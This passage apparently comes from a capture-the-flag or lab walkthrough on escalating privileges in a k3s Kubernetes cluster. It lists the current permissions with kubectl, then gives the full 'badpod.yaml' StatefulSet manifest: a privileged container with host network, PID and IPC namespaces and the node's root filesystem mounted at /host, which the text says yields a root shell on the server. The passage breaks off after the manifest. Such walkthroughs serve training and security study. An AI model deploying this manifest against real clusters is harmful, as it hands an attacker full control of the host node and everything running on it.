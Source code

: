 2. Using the latest Kubernetes configuration, see what permissions we have: 

```bash
kubectl auth can-i --list
```

We don't have as much resources permission as we had with the `secondspace.kubeconfig`. However,  we do have permissions to resources we didn't have before, such as being able to `exec` into pods. And, we can do everything to `statefulsets`. 

Since our goal is to exploit the cluster to obtain root access, we can use a "proof of concept" that allows us to create pods by taking advantage of `statefulsets`. This will mount the Kubernetes host filesystem to the pod and, essentially allow us to get a root shell on the `k3s-server`. Here's how:

3. Create a new yaml file: 

``` bash
touch /home/user/Downloads/finalspace/badpod.yaml
```

4. Using your preferred text editor, paste the following YAML inside the file: 

``` yaml
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: everything-allowed-exec-statefulset
  labels:
    app: pentest
    type: statefulset
spec:
  serviceName: "pentest"
  replicas: 2
  selector:
    matchLabels:
      app: pentest
      type: statefulset
  template:
    metadata:
      labels:
        app: pentest
        type: statefulset
    spec:
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: everything-allowed-exec-statefulset
        image: registry.merch.codes:5000/ubuntu:latest
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```
